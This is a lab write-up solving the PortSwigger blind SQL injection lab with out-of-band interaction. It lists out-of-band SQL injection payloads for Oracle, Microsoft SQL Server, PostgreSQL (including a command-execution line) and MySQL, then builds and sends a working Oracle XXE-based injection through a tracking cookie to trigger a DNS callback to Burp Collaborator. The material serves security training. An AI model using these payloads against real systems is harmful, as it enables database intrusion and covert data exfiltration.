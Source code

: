 # Blind SQL injection with out-of-band interaction
[Lab URL](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

## Hint from [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![image](https://user-images.githubusercontent.com/83407557/208315638-3c599306-85d0-4a60-a239-944c7f3909ee.png)


# Step 1 gather info
(note the pro version of burp is needed to complete this lab :/ sorry I don't make the rules)

For this lab all that is needed is to trigger a DNS query to a server we controll. This has to be done via the burp-collaborator due to firewall restrictions on the server. To get my url, I go to the collaborator tab and clip copy to clipboard:
![image](https://user-images.githubusercontent.com/83407557/208317137-4d8abf6b-11fa-4dc9-a340-6982e23742d7.png)

url: gm6ytjrk7u69jrwzny8ft5efm6sxgu4j.oastify.com


Next I will take the payloads from the cheatsheet
```sql
--oracle
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
--patched oracle
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN') 
--Microsoft
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a' 
--PostgreSQL
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN' 
--MySQL
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
# Step 2 create payloads

Okay, I am going to build a payload for each sql version and see which one I can get to callback. Keep in mind that they above payloads are actual sql queries, to make them injectable we are going to need to add `'<payload>--` to escape the query and comment out the rest of the query. Ontop of that we need a way to combine it with the previous query either with `' || <payload>--` or a `' UNION <payload>--` statement. This makes the actual payload

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://gm6ytjrk7u69jrwzny8ft5efm6sxgu4j.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

# Use oracle payload with burp

Having the payload, I then intercept the request using burp:

![image](https://user-images.githubusercontent.com/83407557/208317897-e3e990cc-7db0-4fd6-8acc-15fda4b882fd.png)

I then send the request to repeater and insery my payload into the trackingid cookie:

![image](https://user-images.githubusercontent.com/83407557/208317933-6920bac8-9c99-46a3-96c5-e7948579688d.png)

Before sending the payload, I hit `CTRL+U` to url encode it:

![image](https://user-images.githubusercontent.com/83407557/208317987-d3589c36-a19c-4a18-a5c0-55646caee445.png)

# Getting a DNS callback

Then checking back in the collaborator tab, I hit poll now, and see that a DNS request was made:

![image](https://user-images.githubusercontent.com/83407557/208318021-09013204-5404-42cb-a480-d31338168be6.png)

checking the lab page back in my browser, I see the lab has been solved:

![image](https://user-images.githubusercontent.com/83407557/208318058-a638254f-2ec0-4088-9dfe-84f03e12fa43.png)



